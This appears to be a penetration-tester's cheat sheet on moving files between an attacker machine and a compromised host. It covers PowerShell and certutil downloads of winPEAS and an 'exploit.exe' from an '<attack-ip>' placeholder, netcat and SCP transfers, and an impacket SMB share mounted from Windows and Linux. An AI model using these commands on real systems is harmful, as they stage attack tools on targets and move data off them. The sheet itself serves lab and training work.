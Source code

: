 ## Download
#### PowerShell
`iwr -uri http://<attack-ip>/winPEASx64.exe -Outfile winPEAS.exe`
#### CMD (Certutil)
`certutil -urlcache -f http://<attack-ip>/exploit.exe exploit.exe`
## SSH (SCP)
###### Retrieve remote file
`scp user@<windows_ip>:C:/Users/user/Desktop/file.exe /local/destination/`

---
## Upload
#### Python HTTP Webserver
`python3 -m http.server 8080`
#### SSH (SCP)
###### Send a file
`scp <file_to_send> user@<remote_ip>:/path/to/destination/`
###### Send a directory recursively
`scp -r /home/johndoe/tools@<remote_ip>:/home/kali/`
#### netcat
###### Linux Receiver:
`nc -l <port> > <output_file>`
###### Windows Receiver:
`nc.exe -l -p <port> > <output_file>`
###### Linux Sender:
`nc <receiver_ip> <port> < <file_to_send>`
###### Windows Sender:
`nc.exe <receiver_ip> <port> < <file_to_send>`
**Note:** On Windows, the sending format only works in CMD. It is different in PowerShell
`Get-Content <file_to_send> -Raw | .\nc.exe <receiver_ip> <port>`

---
## Both Ways
#### SMB
###### Start attacker SMB Share
`impacket-smbserver KALI /home/kali -smb2support -username kali -password kali`
###### Access Share on Windows
`net use X: \\192.168.45.152\KALI /user:kali kali`
Then just navigate like a normal drive. Copy things into it, etc.
###### Access Share on Linux
`sudo mount -t cifs //<target>/<share> /mnt/smb -o username=<user>,password=<password>`
